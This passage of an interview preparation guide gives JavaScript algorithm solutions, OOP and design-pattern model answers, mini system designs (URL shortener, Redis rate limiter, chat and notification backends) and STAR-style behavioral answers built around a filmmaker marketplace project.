    const mid = Math.floor(left + (right - left) / 2);
    if (nums[mid] === target) return mid;
    else if (nums[mid] < target) left = mid + 1;
    else right = mid - 1;
  }
  return -1;
}
```
- **Complexity**: Time: $O(\log N)$ | Space: $O(1)$
- **Thinking Steps**: Compare target with midpoint. Halve the search space each step by adjusting `left` or `right` boundaries.

#### 21. Search in Rotated Sorted Array
- **Problem**: Search a target in a sorted array rotated at some unknown pivot.
- **Code**:
```javascript
function searchRotated(nums, target) {
  let left = 0, right = nums.length - 1;
  while (left <= right) {
    const mid = Math.floor(left + (right - left) / 2);
    if (nums[mid] === target) return mid;

    // Check if left half is normally sorted
    if (nums[left] <= nums[mid]) {
      if (nums[left] <= target && target < nums[mid]) right = mid - 1;
      else left = mid + 1;
    } else {
      // Right half is normally sorted
      if (nums[mid] < target && target <= nums[right]) left = mid + 1;
      else right = mid - 1;
    }
  }
  return -1;
}
```
- **Complexity**: Time: $O(\log N)$ | Space: $O(1)$
- **Thinking Steps**: In a rotated sorted array, at least one half is always strictly sorted. Determine which half is sorted, check if target lies within that half's bounds, and narrow the search accordingly.

#### 22. Group Anagrams
- **Problem**: Group an array of strings into sub-arrays of anagrams.
- **Code**:
```javascript
function groupAnagrams(strs) {
  const map = {};
  for (const str of strs) {
    const sortedKey = str.split('').sort().join('');
    if (!map[sortedKey]) map[sortedKey] = [];
    map[sortedKey].push(str);
  }
  return Object.values(map);
}
```
- **Complexity**: Time: $O(N \cdot K \log K)$ where $K$ is max string length | Space: $O(N \cdot K)$
- **Thinking Steps**: Anagrams produce identical character sequences when sorted. Use the sorted string as a hash map key to collect matching words.

#### 23. First Unique Character in a String
- **Problem**: Find the index of the first non-repeating character in a string.
- **Code**:
```javascript
function firstUniqChar(s) {
  const count = {};
  for (const char of s) count[char] = (count[char] || 0) + 1;
  for (let i = 0; i < s.length; i++) {
    if (count[s[i]] === 1) return i;
  }
  return -1;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$ (26 characters)
- **Thinking Steps**: Pass 1: Build frequency map. Pass 2: Iterate over string in original order and return the first character whose frequency is 1.

#### 24. Valid Parentheses
- **Problem**: Determine if input string containing `'()[]{}'` has matching, correctly nested brackets.
- **Code**:
```javascript
function isValid(s) {
  const stack = [];
  const map = { ')': '(', ']': '[', '}': '{' };
  for (const char of s) {
    if (char === '(' || char === '[' || char === '{') {
      stack.push(char);
    } else {
      if (stack.length === 0 || stack.pop() !== map[char]) return false;
    }
  }
  return stack.length === 0;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(N)$
- **Thinking Steps**: Use a LIFO stack. Push open brackets. When encountering a closing bracket, pop from the stack and verify that it matches the corresponding opening symbol.

#### 25. Implement Queue using Stacks
- **Problem**: Implement a FIFO queue using two LIFO stacks.
- **Code**:
```javascript
class MyQueue {
  constructor() {
    this.inStack = [];
    this.outStack = [];
  }
  push(x) {
    this.inStack.push(x);
  }
  pop() {
    this.peek();
    return this.outStack.pop();
  }
  peek() {
    if (this.outStack.length === 0) {
      while (this.inStack.length > 0) {
        this.outStack.push(this.inStack.pop());
      }
    }
    return this.outStack[this.outStack.length - 1];
  }
  empty() {
    return this.inStack.length === 0 && this.outStack.length === 0;
  }
}
```
- **Complexity**: Push: $O(1)$ | Pop/Peek: Amortized $O(1)$ | Space: $O(N)$
- **Thinking Steps**: `inStack` accepts incoming items. When popping/peeking, if `outStack` is empty, pour all elements from `inStack` into `outStack`, reversing their order to achieve FIFO.

#### 26. Fibonacci (Iterative vs Memoized DP)
- **Problem**: Calculate the $N$-th Fibonacci number.
- **Code**:
```javascript
function fib(n) {
  if (n <= 1) return n;
  let a = 0, b = 1;
  for (let i = 2; i <= n; i++) {
    const next = a + b;
    a = b;
    b = next;
  }
  return b;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: Avoid naive $O(2^N)$ recursion. Store only the last two computed terms in variables `a` and `b`.

#### 27. Power Set (Subsets via Backtracking)
- **Problem**: Return all possible subsets of an array of unique integers.
- **Code**:
```javascript
function subsets(nums) {
  const result = [];
  const backtrack = (start, currentPath) => {
    result.push([...currentPath]);
    for (let i = start; i < nums.length; i++) {
      currentPath.push(nums[i]);
      backtrack(i + 1, currentPath);
      currentPath.pop(); // Backtrack
    }
  };
  backtrack(0, []);
  return result;
}
```
- **Complexity**: Time: $O(2^N \cdot N)$ | Space: $O(N)$ recursion depth
- **Thinking Steps**: Backtracking decision tree: at each index, include the element, explore deeper recursively, then remove (pop) the element to explore branches that exclude it.

#### 28. Graph Breadth-First Search (BFS)
- **Problem**: Traverse an unweighted graph from a start node using BFS.
- **Code**:
```javascript
function bfs(graph, startNode) {
  const visited = new Set([startNode]);
  const queue = [startNode];
  const order = [];

  while (queue.length > 0) {
    const node = queue.shift();
    order.push(node);

    for (const neighbor of (graph[node] || [])) {
      if (!visited.has(neighbor)) {
        visited.add(neighbor);
        queue.push(neighbor);
      }
    }
  }
  return order;
}
```
- **Complexity**: Time: $O(V + E)$ | Space: $O(V)$
- **Thinking Steps**: Use a queue for FIFO frontier expansion and a `Set` to track visited vertices and prevent infinite cycles.

#### 29. Graph Depth-First Search (DFS)
- **Problem**: Traverse a graph using DFS.
- **Code**:
```javascript
function dfs(graph, startNode, visited = new Set(), order = []) {
  visited.add(startNode);
  order.push(startNode);

  for (const neighbor of (graph[startNode] || [])) {
    if (!visited.has(neighbor)) {
      dfs(graph, neighbor, visited, order);
    }
  }
  return order;
}
```
- **Complexity**: Time: $O(V + E)$ | Space: $O(V)$
- **Thinking Steps**: Recursively visit the deepest unvisited neighbor before backtracking to explore alternate branches.

#### 30. Climbing Stairs (Dynamic Programming)
- **Problem**: You are climbing a staircase with $n$ steps. You can climb 1 or 2 steps each time. How many distinct ways can you reach the top?
- **Code**:
```javascript
function climbStairs(n) {
  if (n <= 2) return n;
  let prev2 = 1, prev1 = 2;
  for (let i = 3; i <= n; i++) {
    const current = prev1 + prev2;
    prev2 = prev1;
    prev1 = current;
  }
  return prev1;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: To reach step $n$, you must come from either step $n-1$ or step $n-2$. Hence, `ways(n) = ways(n-1) + ways(n-2)`.

#### 31. House Robber (DP)
- **Problem**: Determine maximum money you can rob from houses along a street without robbing two adjacent houses.
- **Code**:
```javascript
function rob(nums) {
  let robPrev = 0, robPrevPrev = 0;
  for (const num of nums) {
    const temp = Math.max(robPrev, robPrevPrev + num);
    robPrevPrev = robPrev;
    robPrev = temp;
  }
  return robPrev;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: At each house, choose the maximum of: 1) robbing this house + max from 2 houses ago, or 2) skipping this house and keeping max from 1 house ago.

#### 32. Longest Common Subsequence (LCS)
- **Problem**: Find the length of the longest subsequence common to two strings.
- **Code**:
```javascript
function longestCommonSubsequence(text1, text2) {
  const m = text1.length, n = text2.length;
  const dp = Array.from({ length: m + 1 }, () => Array(n + 1).fill(0));

  for (let i = 1; i <= m; i++) {
    for (let j = 1; j <= n; j++) {
      if (text1[i - 1] === text2[j - 1]) {
        dp[i][j] = 1 + dp[i - 1][j - 1];
      } else {
        dp[i][j] = Math.max(dp[i - 1][j], dp[i][j - 1]);
      }
    }
  }
  return dp[m][n];
}
```
- **Complexity**: Time: $O(M \cdot N)$ | Space: $O(M \cdot N)$
- **Thinking Steps**: 2D DP matrix where `dp[i][j]` represents LCS of `text1[0...i-1]` and `text2[0...j-1]`. If characters match, add 1 to diagonal; else take max of left or top cell.

#### 33. Invert Binary Tree
- **Problem**: Invert (mirror) a binary tree.
- **Code**:
```javascript
function invertTree(root) {
  if (root === null) return null;
  const temp = root.left;
  root.left = invertTree(root.right);
  root.right = invertTree(temp);
  return root;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(H)$
- **Thinking Steps**: Swap left and right child pointers recursively at each node down the tree.

#### 34. Lowest Common Ancestor (LCA) in BST
- **Problem**: Find the lowest common ancestor node of two given nodes in a BST.
- **Code**:
```javascript
function lowestCommonAncestor(root, p, q) {
  let curr = root;
  while (curr) {
    if (p.val < curr.val && q.val < curr.val) curr = curr.left;
    else if (p.val > curr.val && q.val > curr.val) curr = curr.right;
    else return curr; // Split point is the LCA
  }
  return null;
}
```
- **Complexity**: Time: $O(H)$ | Space: $O(1)$
- **Thinking Steps**: In a BST, if both values are less than current node, LCA lies in left subtree. If both are greater, LCA lies in right subtree. The first node where values split on either side is the LCA.

#### 35. Container With Most Water
- **Problem**: Find two lines that together with the x-axis form a container holding the maximum water.
- **Code**:
```javascript
function maxArea(height) {
  let max = 0, left = 0, right = height.length - 1;
  while (left < right) {
    const currentArea = Math.min(height[left], height[right]) * (right - left);
    max = Math.max(max, currentArea);
    if (height[left] < height[right]) left++;
    else right--;
  }
  return max;
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(1)$
- **Thinking Steps**: Two-pointer approach. Calculate area. Always move the pointer pointing to the shorter vertical bar inward, as moving the taller bar can never increase the area.

#### 36. 3Sum
- **Problem**: Find all unique triplets in an array that sum to zero.
- **Code**:
```javascript
function threeSum(nums) {
  nums.sort((a, b) => a - b);
  const result = [];

  for (let i = 0; i < nums.length - 2; i++) {
    if (i > 0 && nums[i] === nums[i - 1]) continue; // Skip duplicate i
    let left = i + 1, right = nums.length - 1;

    while (left < right) {
      const sum = nums[i] + nums[left] + nums[right];
      if (sum === 0) {
        result.push([nums[i], nums[left], nums[right]]);
        while (left < right && nums[left] === nums[left + 1]) left++;
        while (left < right && nums[right] === nums[right - 1]) right--;
        left++;
        right--;
      } else if (sum < 0) left++;
      else right--;
    }
  }
  return result;
}
```
- **Complexity**: Time: $O(N^2)$ | Space: $O(1)$ (excluding output)
- **Thinking Steps**: Sort array. Fix one element with an outer loop, then use two pointers (`left` and `right`) to find pairs that sum to `-nums[i]`, skipping duplicates.

#### 37. Top K Frequent Elements
- **Problem**: Given an integer array `nums` and integer `k`, return the `k` most frequent elements.
- **Code**:
```javascript
function topKFrequent(nums, k) {
  const count = {};
  for (const n of nums) count[n] = (count[n] || 0) + 1;

  // Bucket sort: index represents frequency
  const buckets = Array.from({ length: nums.length + 1 }, () => []);
  for (const [num, freq] of Object.entries(count)) {
    buckets[freq].push(Number(num));
  }

  const result = [];
  for (let i = buckets.length - 1; i >= 0 && result.length < k; i--) {
    if (buckets[i].length > 0) {
      result.push(...buckets[i]);
    }
  }
  return result.slice(0, k);
}
```
- **Complexity**: Time: $O(N)$ | Space: $O(N)$
- **Thinking Steps**: Use bucket sort where index = frequency. Iterate backwards from highest frequency bucket to collect top $K$ items in linear time.

#### 38. Course Schedule (Topological Sort / Cycle Detection)
- **Problem**: Determine if you can finish all courses given prerequisite pairs.
- **Code**:
```javascript
function canFinish(numCourses, prerequisites) {
  const adj = Array.from({ length: numCourses }, () => []);
  const inDegree = Array(numCourses).fill(0);

  for (const [course, pre] of prerequisites) {
    adj[pre].push(course);
    inDegree[course]++;
  }

  const queue = [];
  for (let i = 0; i < numCourses; i++) {
    if (inDegree[i] === 0) queue.push(i);
  }

  let completed = 0;
  while (queue.length > 0) {
    const curr = queue.shift();
    completed++;
    for (const neighbor of adj[curr]) {
      inDegree[neighbor]--;
      if (inDegree[neighbor] === 0) queue.push(neighbor);
    }
  }
  return completed === numCourses;
}
```
- **Complexity**: Time: $O(V + E)$ | Space: $O(V + E)$
- **Thinking Steps**: Kahn’s Algorithm for topological sorting. Track in-degrees of each course. Courses with in-degree 0 can be taken immediately; decrement neighbors' in-degrees as prerequisites are satisfied.

#### 39. Number of Islands (2D Grid BFS/DFS)
- **Problem**: Count the number of islands ('1's surrounded by '0's) in a 2D grid.
- **Code**:
```javascript
function numIslands(grid) {
  if (!grid || grid.length === 0) return 0;
  let count = 0;

  const dfs = (r, c) => {
    if (r < 0 || c < 0 || r >= grid.length || c >= grid[0].length || grid[r][c] === '0') return;
    grid[r][c] = '0'; // Sink island (mark visited)
    dfs(r + 1, c);
    dfs(r - 1, c);
    dfs(r, c + 1);
    dfs(r, c - 1);
  };

  for (let r = 0; r < grid.length; r++) {
    for (let c = 0; c < grid[0].length; c++) {
      if (grid[r][c] === '1') {
        count++;
        dfs(r, c);
      }
    }
  }
  return count;
}
```
- **Complexity**: Time: $O(M \cdot N)$ | Space: $O(M \cdot N)$ recursion stack
- **Thinking Steps**: Iterate through grid. When a `'1'` is found, increment counter and trigger DFS to sink all connected land cells by flipping them to `'0'`.

#### 40. Coin Change (Fewest Coins)
- **Problem**: Find the fewest number of coins needed to make up a given amount.
- **Code**:
```javascript
function coinChange(coins, amount) {
  const dp = Array(amount + 1).fill(Infinity);
  dp[0] = 0;

  for (let i = 1; i <= amount; i++) {
    for (const coin of coins) {
      if (i - coin >= 0) {
        dp[i] = Math.min(dp[i], 1 + dp[i - coin]);
      }
    }
  }
  return dp[amount] === Infinity ? -1 : dp[amount];
}
```
- **Complexity**: Time: $O(\text{amount} \cdot \text{coins.length})$ | Space: $O(\text{amount})$
- **Thinking Steps**: Bottom-up DP: `dp[i]` stores the min coins needed for amount `i`. For each amount, test all available coins and take $1 + dp[i - \text{coin}]$.

---

### Part 2: 10 OOP, SOLID, and Design Patterns Questions

#### Q128: The 4 Pillars of OOP in Modern JavaScript (Classes)
- **Model Answer**:
1. **Encapsulation**: Bundling state and methods together while hiding internal details using private class fields (`#`).
```javascript
class Filmmaker {
  #passwordHash;
  constructor(name, email, hash) {
    this.name = name;
    this.email = email;
    this.#passwordHash = hash;
  }
  verifyPassword(input) { return bcrypt.compareSync(input, this.#passwordHash); }
}
```
2. **Abstraction**: Exposing a high-level interface while hiding implementation complexity (e.g., calling `emailService.sendEmail()` without needing to know whether it uses SMTP or Resend REST API).
3. **Inheritance**: Creating child classes derived from parent classes via `extends` and `super()` (e.g., `class AdminUser extends User { ... }`).
4. **Polymorphism**: The ability of different classes to respond to the same method invocation in their own specialized way (e.g., `GmailProvider.send()` vs `ResendProvider.send()`).
- **Difficulty**: Easy | **Priority**: P1

#### Q129: SOLID Principles with Backend Node.js Examples
- **Model Answer**:
- **S - Single Responsibility Principle (SRP)**: A class/module should have one, and only one, reason to change. In CrewUpFilms, separating `fraudDetectionService.js` (scoring logic) from `projectController.js` (HTTP request handling) adheres to SRP.
- **O - Open/Closed Principle (OCP)**: Software entities should be open for extension, but closed for modification. The email cascade is open to new providers by implementing an `EmailProvider` interface without rewriting existing send logic.
- **L - Liskov Substitution Principle (LSP)**: Subclasses must be substitutable for their base types without altering correctness. Any payment gateway subclass (Stripe, PayPal) must honor the base `processPayment(amount)` contract.
- **I - Interface Segregation Principle (ISP)**: Clients should not be forced to depend upon interfaces they do not use. Split bulky interfaces into focused ones (e.g., `ReadableStream` vs `WritableStream`).
- **D - Dependency Inversion Principle (DIP)**: High-level modules should depend on abstractions, not concrete low-level implementations. Passing a database connection interface into controllers rather than importing concrete Mongoose models directly.
- **Difficulty**: Hard | **Priority**: P1

#### Q130: Observer Pattern: How the Notification Hook Implements It
- **Model Answer**: The Observer pattern defines a one-to-many dependency where when one subject changes state, all its registered observers are notified automatically. In CrewUpFilms:
- **Subject**: The Mongoose `Notification` model document during `.save()`.
- **Observer**: The real-time notification socket dispatcher.
When an application controller creates a notification, it doesn't need to know who is listening or how WebSockets work. The post-save hook (`notificationSchema.post('save')`) acts as the observer callback, triggering real-time emission via `global._io.to('user:' + doc.recipient).emit('newNotification', doc)`.
- **Difficulty**: Medium | **Priority**: P1

#### Q131: Factory Pattern in Backend Services
- **Model Answer**: The Factory pattern provides an interface for creating objects without specifying their concrete classes.
*Example: Email Provider Factory*:
```javascript
class EmailProviderFactory {
  static getProvider(type) {
    switch (type) {
      case 'resend': return new ResendProvider(process.env.RESEND_API_KEY);
      case 'brevo':  return new BrevoProvider(process.env.BREVO_SMTP_KEY);
      case 'gmail':  return new GmailProvider(process.env.GMAIL_APP_PASS);
      default: throw new Error(`Unknown provider: ${type}`);
    }
  }
}
const emailSender = EmailProviderFactory.getProvider(process.env.ACTIVE_EMAIL_TIER);
```
- **Difficulty**: Easy | **Priority**: P2

#### Q132: Singleton Pattern: `useSocket.js` and Database Connections
- **Model Answer**: The Singleton pattern restricts class instantiation to a single shared instance throughout the application lifecycle.
- In `connectDB.js`: Node modules are cached upon first `require()`. Mongoose maintains a single shared connection pool instance globally.
- In `useSocket.js` on the client: Initializing multiple WebSocket connections wastefully exhausts browser sockets and server memory. A singleton socket manager ensures that calling `useSocket()` from 10 different UI components reuses the exact same active WebSocket instance.
- **Difficulty**: Medium | **Priority**: P1

#### Q133: Repository Pattern: Refactoring Controllers
- **Model Answer**: Currently, CrewUpFilms controllers directly call Mongoose queries (`await Project.findById(id)`). The Repository Pattern decouples business logic from data access:
```javascript
// projectRepository.js
class ProjectRepository {
  async findById(id) { return await Project.findById(id).populate('creator'); }
  async findOpenProjects(query) { return await Project.find({ status: 'open', ...query }); }
}
// projectController.js
const projectRepo = new ProjectRepository();
exports.getProject = async (req, res) => {
  const project = await projectRepo.findById(req.params.id);
  res.json({ success: true, project });
};
```
*Advantage*: If the database is migrated from MongoDB to PostgreSQL/Prisma, only the repository files change; controllers and business logic remain untouched.
- **Difficulty**: Medium | **Priority**: P2

#### Q134: MVC (Model-View-Controller) Pattern in CrewUpFilms
- **Model Answer**:
- **Model**: Mongoose schemas (`User.js`, `Project.js`, `Application.js`) encapsulating database structure, validation rules, and schema lifecycle hooks.
- **View**: Next.js 14 React client components rendering the UI, consuming API endpoints, and displaying data to filmmakers.
- **Controller**: Express controller functions (`authController.js`, `projectController.js`) receiving HTTP requests, coordinating business rules, invoking services, and returning JSON responses.
- **Difficulty**: Easy | **Priority**: P1

#### Q135: Strategy Pattern for Dynamic Sorting and Filtering
- **Model Answer**: The Strategy pattern enables selecting an algorithm's behavior at runtime.
*Example*: Project ranking strategies:
```javascript
const rankingStrategies = {
  recommended: (projects, user) => recommendationEngine.scoreAll(projects, user),
  latest:      (projects) => projects.sort((a, b) => b.createdAt - a.createdAt),
  popular:     (projects) => projects.sort((a, b) => b.applicationsCount - a.applicationsCount),
};

const getProjects = async (req, res) => {
  const strategy = rankingStrategies[req.query.sort] || rankingStrategies.latest;
  const projects = await Project.find({ status: 'open' });
  const sorted = strategy(projects, req.user);
  res.json({ success: true, projects: sorted });
};
```
- **Difficulty**: Medium | **Priority**: P2

#### Q136: Adapter Pattern: Socket.io Redis Adapter
- **Model Answer**: The Adapter pattern allows incompatible interfaces to work together by converting one interface into another expected by clients. `@socket.io/redis-adapter` adapts Redis Pub/Sub channels to match Socket.io's internal `BroadcastOperator` interface. When controllers call standard `io.to('room').emit()`, the adapter converts the method call into a Redis `PUBLISH` command behind the scenes.
- **Difficulty**: Medium | **Priority**: P2

#### Q137: Chain of Responsibility Pattern: Express Middleware
- **Model Answer**: The Chain of Responsibility pattern passes a request along a chain of handlers. Each handler decides either to process the request and pass it to the next handler, or to halt processing and return a response. Express middleware (`app.use(helmet)`, `app.use(cors)`, `protect`, `validate`, `controller`) is a textbook implementation of this pattern, where each function calls `next()` to advance execution down the chain.
- **Difficulty**: Easy | **Priority**: P1


---

## C12. Mini System Design

### 1. URL Shortener (e.g., Bitly Clone)

```
[Client] ──> [CloudFront CDN] ──> [Nginx / ALB] ──> [Node.js Express API]
                                                            │
                       ┌────────────────────────────────────┴────────────────────────────────────┐
                       ▼                                                                         ▼
             [Redis LRU Cache]                                                            [PostgreSQL DB]
           (ShortURL -> LongURL)                                                      (ID, Hash, LongURL, Hits)
```

#### Step 1: Requirements & Scope
- **Functional**:
  - Given a long URL, generate a unique short 7-character alias (e.g., `https://sh.nr/7xK9pQ`).
  - Accessing the short URL redirects with HTTP 301/302 to the original destination.
  - Track basic analytics (click counts, referrer, timestamp).
- **Non-Functional**:
  - High read-to-write ratio (~100:1).
  - Ultra-low redirection latency (<15ms).
  - High availability (99.99%).

#### Step 2: Capacity Estimation
- 100 Million URLs created per month $\approx 40$ writes/sec.
- Read traffic: $100 \times 40 = 4000$ reads/sec.
- Storage: 7-character Base62 string ($62^7 \approx 3.5 \text{ Trillion}$ combinations). At 500 bytes per record, $100\text{M} \times 500\text{B} \approx 50\text{GB}$ per month.

#### Step 3: Data Model (PostgreSQL)
```sql
CREATE TABLE urls (
  id BIGSERIAL PRIMARY KEY,
  short_code VARCHAR(7) UNIQUE NOT NULL,
  original_url TEXT NOT NULL,
  user_id UUID REFERENCES users(id),
  clicks BIGINT DEFAULT 0,
  created_at TIMESTAMP DEFAULT NOW()
);
CREATE INDEX idx_urls_short_code ON urls(short_code);
```

#### Step 4: API Design
- `POST /api/v1/shorten`
  - Body: `{ "longUrl": "https://crewupfilms.com/projects/indie-thriller-casting" }`
  - Response: `{ "shortUrl": "https://sh.nr/7xK9pQ", "code": "7xK9pQ" }`
- `GET /:shortCode`
  - Response: HTTP 301 (Permanent Redirect) or 302 (Temporary Redirect to track analytics).

#### Step 5: Encoding & Scaling Architecture
- **Base62 Encoding**: Convert the auto-incrementing `BIGSERIAL id` to Base62 (`[0-9a-zA-Z]`). ID `10,000,000` translates to a collision-free unique short string.
- **Caching**: 80% of read traffic targets 20% of popular URLs (Pareto Principle). Place Redis in front of PostgreSQL. Cache hits return in <2ms.
- **Analytics Queue**: Do NOT increment the database hit counter synchronously on redirect. Publish click events to a Kafka/RabbitMQ queue and process batch updates asynchronously.

---

### 2. Distributed Rate Limiter (Token Bucket Algorithm)

```
[Incoming Request] ──> [API Gateway / Express Middleware]
                                   │
                     (Check & Consume via Lua Script)
                                   ▼
                        [Redis Key-Value Cluster]
                   Key: "ratelimit:{ip}:{minute_bucket}"
```

#### Step 1: Requirements & Scope
- Limit user or IP to $N$ requests per unit time (e.g., 20 requests per 15 minutes on `/api/auth`).
- Return HTTP 429 "Too Many Requests" when limit exceeded with `Retry-After` header.
- Low memory footprint, sub-millisecond evaluation latency, distributed across multiple servers.

#### Step 2: Algorithm Selection (Token Bucket vs Fixed Window)
- *Fixed Window* suffers from traffic bursts at window boundaries.
- *Token Bucket* allows bursts up to capacity while enforcing a steady average outflow rate. A bucket holds up to $C$ tokens. Tokens refill at rate $r$ tokens/second. Each request consumes 1 token.

#### Step 3: Redis Distributed Implementation (Atomic Lua Script)
Evaluating and updating tokens must be atomic to prevent race conditions across parallel Node.js instances:
```lua
-- KEYS[1]: User rate limit key (e.g., 'ratelimit:user_123')
-- ARGV[1]: Bucket capacity
-- ARGV[2]: Refill rate per second
-- ARGV[3]: Current timestamp (seconds)
local key = KEYS[1]
local capacity = tonumber(ARGV[1])
local refill_rate = tonumber(ARGV[2])
local now = tonumber(ARGV[3])

local data = redis.call('HMGET', key, 'tokens', 'last_updated')
local tokens = tonumber(data[1])
local last_updated = tonumber(data[2])

if tokens == nil then
  tokens = capacity
  last_updated = now
else
  local delta = math.max(0, now - last_updated)
  tokens = math.min(capacity, tokens + delta * refill_rate)
  last_updated = now
end

if tokens >= 1 then
  tokens = tokens - 1
  redis.call('HMSET', key, 'tokens', tokens, 'last_updated', last_updated)
  redis.call('EXPIRE', key, 3600)
  return 1 -- Allowed
else
  return 0 -- Rejected (Rate limited)
end
```
- **Complexity**: $O(1)$ time, executed in a single atomic Redis thread.

---

### 3. Real-Time Chat Backend (CrewUpFilms vs Production Scale)

```
[Client App] <─── WebSocket ───> [Nginx Load Balancer]
                                          │
                  ┌───────────────────────┴───────────────────────┐
                  ▼                                               ▼
         [Node Instance 1]                               [Node Instance 2]
                  │                                               │
                  └───────────────> [Redis Pub/Sub] <─────────────┘
                                          │
                                          ▼
                                 [Cassandra / ScyllaDB]
                                 (Partitioned by ConvID)
```

#### Step 1: Comparison: CrewUpFilms Current Design vs Production Scale
- **CrewUpFilms (Current)**: Monolithic Socket.io running on a single Express server. Sockets join local rooms (`user:${id}`, `project:${id}`). Messages write to MongoDB, and in-memory events broadcast locally. *Limitation*: Cannot scale beyond 1 server; server restart drops all connections; memory exhaustion with 10k+ concurrent sockets.
- **Production Architecture**: Decoupled WebSocket gateway cluster, Redis Pub/Sub adapter, and horizontally partitioned message storage.

#### Step 2: Data Model (Relational / NoSQL)
- High-write message volumes demand append-only databases (PostgreSQL partitioned by conversation or Cassandra/ScyllaDB):
```sql
CREATE TABLE chat_messages (
  conversation_id UUID NOT NULL,
  message_id UUID NOT NULL,
  sender_id UUID NOT NULL,
  content TEXT NOT NULL,
  created_at TIMESTAMP WITH TIME ZONE DEFAULT NOW(),
  PRIMARY KEY (conversation_id, created_at, message_id)
);
```

#### Step 3: Message Flow & Reliability
1. User A sends message over WebSocket: `{ convId, text, recipientId, clientTempId }`.
2. Socket server publishes to Redis channel `conv:${convId}`.
3. Message persists asynchronously via write-behind queue to database.
4. Server acknowledges receipt to User A with confirmed `message_id` (updates single checkmark to double checkmark).
5. All socket instances subscribed to `conv:${convId}` forward message to connected recipients.
6. If recipient is offline, trigger push notification worker via Firebase Cloud Messaging (FCM).

---

### 4. Freelance Marketplace Backend (CrewUpFilms at Scale)

```
[Next.js Client] ──> [API Gateway (ALB)] ──> [Project Service] ──> [PostgreSQL Writer]
                                        ├──> [Search Service]  ──> [Elasticsearch]
                                        ├──> [Matching Engine] ──> [Redis Feature Cache]
                                        └──> [Escrow Payment]  ──> [Stripe API]
```

#### Step 1: Core Domains
1. **Identity & Reputation**: User profiles, portfolios, skill verification, mentor ratings.
2. **Project & Audition Discovery**: Search, categorization, location filtering, recommendation scoring.
3. **Application & Hiring Workflow**: Multi-stage state machine (Applied $\rightarrow$ Shortlisted $\rightarrow$ Auditioning $\rightarrow$ Accepted $\rightarrow$ Contracted).
4. **Contract & Escrow Payments**: Milestone deposits, fund release upon project wrap.

#### Step 2: Application State Machine & Concurrency Control
When an application is accepted and a project role is locked, prevent over-booking using PostgreSQL row-level locking:
```sql
BEGIN;
SELECT status FROM project_roles 
WHERE id = $role_id FOR UPDATE; -- Acquires row exclusive lock

-- Verify role is not yet filled
UPDATE project_roles SET is_filled = true WHERE id = $role_id;
UPDATE applications SET status = 'accepted' WHERE id = $app_id;
COMMIT;
```

#### Step 3: Search & Discovery Engine
Offload search queries from PostgreSQL to **Elasticsearch**. Index project documents with full-text search, fuzzy role matching, geospatial location queries (`geo_distance` within 25km for on-location filming), and filter facets.

---

### 5. Multi-Tier Notification System

```
[Service Trigger] ──> [BullMQ Queue] ──> [Notification Worker]
                                                │
         ┌──────────────────────────────────────┼──────────────────────────────────────┐
         ▼                                      ▼                                      ▼
[Database Persistence]               [Real-Time WebSocket]                  [External Push / Email]
(PostgreSQL notifications)            (Socket.io Redis Pub/Sub)                (FCM / Resend / Brevo)
```

#### Step 1: Limitations of Post-Save Hook
- CrewUpFilms uses `notificationSchema.post('save')`.
- *Flaw 1*: Coupled tightly to database transactions. If socket emission hangs, the caller thread is blocked.
- *Flaw 2*: Single point of failure. If the server restarts during `post('save')`, notifications are lost.
- *Flaw 3*: No retry mechanism if the client is temporarily disconnected.

#### Step 2: Queue-Based Production Architecture
1. **Producer**: Any controller wanting to send a notification pushes an event to a Redis BullMQ queue:
   `await notificationQueue.add('sendNotification', { recipientId, title, message, type, channels: ['in_app', 'push', 'email'] });`
2. **Worker Processing**:
   - Persists notification record to PostgreSQL.
   - Checks recipient's online presence in Redis. If active on WebSocket, publishes to `user:${recipientId}` channel.
   - If user is offline or channel includes `'email'`, schedules email delivery job through the email fallback cascade.
   - Supports user preference toggles (e.g., "Do not email me for follow requests").

---

## C13. HR and Behavioral Interview Questions (STAR Method)

### 1. Tell me about yourself.
- **Model Answer**: "I am a backend-focused software engineer with hands-on experience building production web applications using Node.js, Express, MongoDB, and PostgreSQL, along with frontend proficiency in Next.js and React. Most recently, I built and launched CrewUpFilms—a real-time collaboration marketplace connecting independent filmmakers, crew members, and mentors. On CrewUpFilms, I architected the core REST APIs, implemented real-time bidirectional messaging and notification pipelines using Socket.io, engineered an automated fraud detection engine with weighted risk scoring, and established a multi-provider fallback email dispatcher. I enjoy building resilient, secure systems—from implementing JWT and OAuth authentication flows to optimizing relational SQL schemas, database indexing, and containerized deployments. I am excited to bring my technical problem-solving skills to SHNOOR International LLC."
- **Focus**: Clear 2-minute elevator pitch highlighting stack alignment with the job description.

### 2. Why backend engineering?
- **Model Answer**: "I love backend engineering because it is the fundamental engine that powers product reliability, business logic integrity, and security. While frontend creates delightful user interactions, the backend solves the hardest architectural puzzles: ensuring financial and relational data consistency, maintaining sub-millisecond query performance across millions of rows, defending against OWASP security threats, and guaranteeing zero message loss in real-time pipelines. Building a system that reliably handles concurrency, complex state machines, and failovers is deeply satisfying to me."
- **Focus**: Passion for architecture, data integrity, and system reliability.

### 3. Why SHNOOR International LLC?
- **Model Answer**: "I have closely reviewed the technical requirements for this role at SHNOOR International, and the engineering stack—React, PostgreSQL, AWS infrastructure (EC2, S3, RDS), and RESTful API development—aligns directly with my hands-on technical competencies and growth goals. I appreciate that SHNOOR works on production-grade client platforms requiring robust relational schema design, query optimization, and reliable deployments. I am seeking an environment where I can take ownership of backend microservices, write clean maintainable code, and contribute meaningfully to the team's engineering velocity."
- **Focus**: Stack alignment, eagerness to contribute to production systems.

### 4. Walk me through a complex technical challenge you faced.
- **Situation**: While building the real-time messaging system in CrewUpFilms, users experienced intermittent duplicate messages and missed push notifications when switching between project pages.
- **Task**: I needed to identify the root cause of connection churn, eliminate duplicate socket listeners, and guarantee delivery across distinct chat rooms.
